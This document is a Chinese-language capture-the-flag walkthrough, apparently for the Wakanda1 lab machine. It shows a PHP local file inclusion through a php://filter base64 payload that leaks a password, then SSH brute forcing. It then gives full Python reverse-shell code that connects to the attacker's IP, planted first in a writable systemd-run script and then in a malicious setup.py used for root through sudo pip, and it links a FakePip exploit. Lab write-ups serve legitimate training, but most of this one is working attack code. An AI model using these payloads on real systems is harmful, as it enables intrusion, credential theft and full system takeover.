 



# mynew
?lang= 出现url sql注入和文件包含很大几率
php的伪协议，过滤器
index：HTTP/1.0 500 Internal Server Error
疑似存在文件包含，开始测试！
转换过滤器中的base64-encode过滤器可用于通过LFI检索任意服务器文件。-》获得密码
ssh账号枚举
python反弹shell
sudo pip 提权
find新技巧-深入枚举

find / -user mamadou 2>&1 | grep -v "Permission denied\|proc"
/   ---反斜杠从根目录开始查询
-user mamadou  ---搜索普通该用户权限的文件
2>&1   ----将所有错误信息重定向不输出过滤掉
-v   ---就是错误的输出过滤

通过前面脚本枚举还发现存在另一个用户：devops
find / -user devops 2>&1 | grep -v "Permission denied\|proc"
/srv/.antivirus.py
/tmp/test
/home/devops/flag2.txt

# 
1、nmap 10.211.55.0/24 -sP
Nmap scan report for localhost (10.211.55.50)


2、nmap 10.211.55.50 -p-
80/tcp    open  http
111/tcp   open  rpcbind
3333/tcp  open  dec-notes ssh OpenSSH 6.7p1
35523/tcp open  unknown status RPC

nmap 10.211.55.50 -p80,111,3333,35523 -A -T5

3、web信息枚举
访问：http://10.211.55.50/

dirb扫出的目录都是访问空白页面！

查看主页的静态源码发现：
<!-- <a class="nav-link active" href="?lang=fr">Fr/a> -->


http://10.211.55.50/?lang=fr  ---发现跳转回了主页
dirb http://10.211.55.50/?lang=   ---发现存在fr和index
尝试访问fr.php和index.php都跳转回主页！

通过抓包分析：curl测试是否存在文件包含响应
curl -i http://10.211.55.50/?lang=fr     
curl -i http://10.211.55.50/?lang=index
-i    ----include 在输出中包含协议响应头
对比发现：
fr ：HTTP/1.1 200 OK
index：HTTP/1.0 500 Internal Server Error
疑似存在文件包含，开始测试！

==PHP存在四种过滤器：
字符串过滤器
转换过滤器
压缩过滤器
加密过滤器
https://www.runoob.com/php/php-filter.html

1）转换过滤器中的base64-encode过滤器可用于通过LFI检索任意服务器文件。
base64-encode：
https://www.php.net/manual/en/filters.convert.php
2）也可以使用压缩过滤器中的zlib.inflate或bzip2.compress来检索服务器文件而不执行它们
zlib.inflate：
https://www.php.net/manual/en/filters.compression.php
bzip2.compress：
https://www.php.net/manual/en/filters.compression.php


4、文件包含

curl http://10.211.55.50/?lang=php://filter/convert.base64-encode/resource=index | head -n 1 | base64 -d

获得密码：
Niamey4Ever227!!!
但是不知道是哪个用户的密码！

5、ssh用户名枚举爆破
1）枚举用户名
cewl http://10.211.55.50/ > 1.txt
2）暴力破解ssh
利用实战常用的：gorailgun.exe

成功获得用户：
mamadou


6、内部信息枚举

ssh mamadou@10.211.55.50 -p 3333
Niamey4Ever227!!!

输入进来发现这是：Python 2.7.9的命令框

import pty;
pty.spawn('/bin/bash');
通过python获得bash正常shell!

1）脚本信息枚举
---------------------------------
linpeas.sh信息枚举：
rwxr-sr-- 1 root   developer  281 Feb 27  2015 /usr/bin/pip
参考文章：PIP是Python包或模块的包管理器
https://www.w3schools.com/python/python_pip.asp

/tmp/test
/var/mail/mamadou
/var/log/auth.log
/var/log/syslog
/var/log/daemon.log
/home/mamadou/.gnupg/gpg.conf
/home/mamadou/.gnupg/pubring.gpg
/home/mamadou/.gnupg/trustdb.gpg
/etc/resolv.conf

---------------------------------
通过内核、信息枚举就发现一个pip但是无法使用！

2）find新技巧-深入枚举

find / -user mamadou 2>&1 | grep -v "Permission denied\|proc"
/   ---反斜杠从根目录开始查询
-user mamadou  ---搜索普通该用户权限的文件
2>&1   ----将所有错误信息重定向不输出过滤掉
-v   ---就是错误的输出过滤

通过前面脚本枚举还发现存在另一个用户：devops
find / -user devops 2>&1 | grep -v "Permission denied\|proc"
/srv/.antivirus.py
/tmp/test
/home/devops/flag2.txt
这里返现三个可疑信息：
cat /home/devops/flag2.txt
cat: /home/devops/flag2.txt: Permission denied
发现无权限打开！
cat /srv/.antivirus.py
open('/tmp/test','w').write('test')
发现这是一个可读可写的python脚本！

查看下antivirus是否存在计划任务启动该脚本：
find / -name *antivirus* 2>&1 | grep -v "Permission denied\|proc"
/srv/.antivirus.py
/lib/systemd/system/antivirus.service
发现存在antivirus.service服务检查下：
cat /lib/systemd/system/antivirus.service
RestartSec=300   ---300秒运行一次
User=devops      ---这是devops用户运行

修改/srv/.antivirus.py
那么接下来按照项目四的小技巧加入：
---------
nc -tvlp 9999

#!/usr/bin/python
def con():
	import socket, time,pty, os
	host='10.211.55.19'
	port=9999
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.settimeout(10)
	s.connect((host,port))
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	os.putenv("HISTFILE",'/dev/null')
	pty.spawn("/bin/bash")
	s.close()
con()

----------
nano写入后等待300秒获得反弹shell！


7、内部信息枚举-devops
cat /etc/group
developer:x:1002:    ---可看到还存在group组里的developer
find / -group developer 2>&1 | grep -v "Permission denied\|proc"
发现：/usr/bin/pip

在整个目录中枚举devops：
grep -rn / -e devops 2>&1 | grep -v "Permission denied\|proc"
/etc/subgid:11:devops:755360:65536
/etc/group:56:devops:x:1001:
/etc/passwd:29:devops:x:1001:1002:,,,:/home/devops:/bin/bash
/etc/subuid:11:devops:755360:65536
没发现新的东西，但是可看到devops的ID为1002是共用的！

sudo -l 
User devops may run the following commands on Wakanda1:
    (ALL) NOPASSWD: /usr/bin/pip

提权pip：
参考：
https://marthall.github.io/blog/how-to-package-a-python-app/
根据上面回弹的python脚本简单修改下即可：

---------
nc -tvlp 9900

from setuptools import setup   #加入

def con():
	import socket, time,pty, os
	host='192.168.139.131'
	port=9900
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.settimeout(10)
	s.connect((host,port))
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	os.putenv("HISTFILE",'/dev/null')
	pty.spawn("/bin/bash")
	s.close()
con()

setup(name="dayu", version="1.0")  #加入

----------
wget http://10.211.55.19:8081/setup.py
sudo pip install .   ---成功获得反弹shell





提权pip：拓展思路
poc：https://github.com/0x00-0x00/FakePip
git clone https://github.com/0x00-0x00/FakePip.git  ---下载


























































